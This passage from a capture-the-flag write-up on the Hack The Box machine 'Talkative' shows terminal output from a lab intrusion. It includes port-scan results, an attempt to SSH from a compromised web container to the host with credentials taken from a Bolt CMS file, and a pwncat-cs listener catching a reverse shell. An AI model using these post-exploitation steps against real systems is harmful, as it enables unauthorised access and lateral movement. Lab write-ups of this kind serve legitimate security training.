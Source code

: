```shell
port 6014 is open
port 6015 is open
port 8080 is open
port 8081 is open
port 8082 is open
```

As you can see, the host machine has **SSH opened**!

**Let's try to SSH into the host machine with the obtained credentials from `bolt-administration.omv`:**
```shell
www-data@c468eed9f9fc:/var/www/talkative.htb/bolt/public$ ssh matt@172.17.0.1
Pseudo-terminal will not be allocated because stdin is not a terminal.
Host key verification failed.
```

Hmm... Looks like we need a full TTY shell...

**After trying different methods, I have to use `pwncat-cs`...**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|16:36:24(HKT)]
└> pwncat-cs -l -p 53
/home/siunam/.local/lib/python3.11/site-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated
  'class': algorithms.Blowfish,
[16:36:39] Welcome to pwncat 🐈!                                                            __main__.py:164
[...]
```

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|16:37:10(HKT)]
└> curl http://talkative.htb/

```

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|16:36:24(HKT)]
└> pwncat-cs -l -p 53
/home/siunam/.local/lib/python3.11/site-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated
  'class': algorithms.Blowfish,
[16:36:39] Welcome to pwncat 🐈!                                                            __main__.py:164
[16:37:10] received connection from 10.10.11.155:53022                                           bind.py:84
[16:37:12] 10.10.11.155:53022: registered new host w/ db                                     manager.py:957
(local) pwncat$
(remote) www-data@c468eed9f9fc:/var/www/talkative.htb/bolt/public$ 
(remote) www-data@c468eed9f9fc:/var/www/talkative.htb/bolt/public$ ssh matt@172.17.0.1
[...]
matt@172.17.0.1's password: 
Permission denied, please try again.
```
